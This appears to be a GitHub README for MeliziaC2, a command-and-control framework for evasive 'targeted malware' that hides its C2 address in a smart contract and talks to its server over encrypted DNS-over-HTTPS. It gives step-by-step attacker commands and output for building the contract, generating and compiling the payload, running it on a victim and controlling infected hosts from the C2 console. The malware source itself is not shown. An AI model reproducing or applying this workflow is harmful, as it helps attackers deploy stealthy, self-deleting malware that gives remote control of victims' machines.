 # MeliziaC2
DNS over HTTPS targeted malware (only runs once)

<p align="center">
  <img src="./logo.jpg" width="500">
</p>

## Key Features
- [x] Auto-delete malware on failure
- [x] Fully encrypted (per victim RSA key) DoH (DNS-over-HTTPS) communication
- [x] Malware only runs once!   

## Diagram

![diagram](./melizia_diagram.svg)


## Usage Steps

###### 1 - Generate and deploy smart contract (contains the AES encrypted DNS address of server)
```
attacker_machine@ThreatActor:$ python3 contract_generator.py 
[...]
Calculating keccak from :: ImTWdbREqskoawYAXzEB()

Contract address :: 0xD3E71479BB2A8b3ba6724636C41b836bD2dFe5B6
Encrypted C2 address :: weTq1JD5gpk4Guv/9wTXXhcXgxI+0V+aQPKly7F0rdM=
Contract key :: 9o2goajTJ3ivI+DLB+rRzw==
Generated contract variable name :: ImTWdbREqskoawYAXzEB
Contract keccak :: 7941b5a6

gen_payload primaryServerIP:port 0xD3E71479BB2A8b3ba6724636C41b836bD2dFe5B6 9o2goajTJ3ivI+DLB+rRzw== 7941b5a6
```

###### 2 - Generate payload using the returned parameters
```
attacker_stager_server@Stager:$ python3 server_rust.py 
Server running!
> gen_payload stagerServerPublicIP:stagerServerExposedPort(1337 by default) 0xD3E71479BB2A8b3ba6724636C41b836bD2dFe5B6 9o2goajTJ3ivI+DLB+rRzw== 7941b5a6
Smart contract address :: 0xD3E71479BB2A8b3ba6724636C41b836bD2dFe5B6
Smart contract Keccak :: 7941b5a6
Generated payload with hash :: b'8822a96ba043c606b16ede401cb4a22f2a57c63214311c4ed21f5c705a5d7687'

> 
```

###### 3 - Compile payload
```
attacker_stager_server@Stager:~/Desktop/babagola/migrate$ cargo build --release --target=x86_64-unknown-linux-musl
[...]
warning: `migrate` (bin "migrate") generated 147 warnings
    Finished release [optimized] target(s) in 0.18s
warning: the following packages contain code that will be rejected by a future version of Rust: rustc-serialize v0.3.24
note: to see what the problems were, use the option `--future-incompat-report`, or run `cargo report future-incompatibilities --id 1051`
```

###### 4 - run (Victim)
```
user@Ubuntu:$ ./malware 
[debug information]
```

##### 5 - control!
```
threatactor@C2Server:~/C2_Melizia$ sudo python3.10 c2.py 
sudo: unable to resolve host TestingC2: Resource temporarily unavailable
 Melizia C2 
Pwned by trololo gang! kek kek keke kekw
- "SYSADMIN VOCÊ ESTÁ SENDO HIPNOTIZADO, ESQUEÇA QUE ESSA OWNADA EXISTIU"
        |) /\ |\ | /`  |
        |) \/ | \| \]  .
          __________         |) /\ |\ | /`  |
         /________ /|        |) \/ | \| \]  .
        |   X|I   | |
        |    |    | | |) /\ |\ | /`  |
        |IX  * III| | |) \/ | \| \]  .
        |    |    | |
        |____VI___| |         |) /\ |\ | /`  |
        |    /    | |         |) \/ | \| \]  .
        |   /     | |
        |  /      | |     |) /\ |\ | /`  |
        |( )      | |     |) \/ | \| \]  .
        |_________|/
                     |) /\ |\ | /`  |
                     |) \/ | \| \]  .


Ctrl+C is disabled! please use "exit" to exit from Melizia
Use "help" to see the available commands!
[!] DNS Server started

(Melizia)> A spaceship arrived!
"92994c589f860bab7af687fc3525d3de445812f52e951f5cf2d04432751a1b8c" Called home!
```


## Compilation
###### Static compile
```
rustup target add x86_64-unknown-linux-musl
cargo build --release --target=x86_64-unknown-linux-musl

or (windows)

rustup target add x86_64-pc-windows-gnu
cargo build --release --target=x86_64-pc-windows-gnu
```


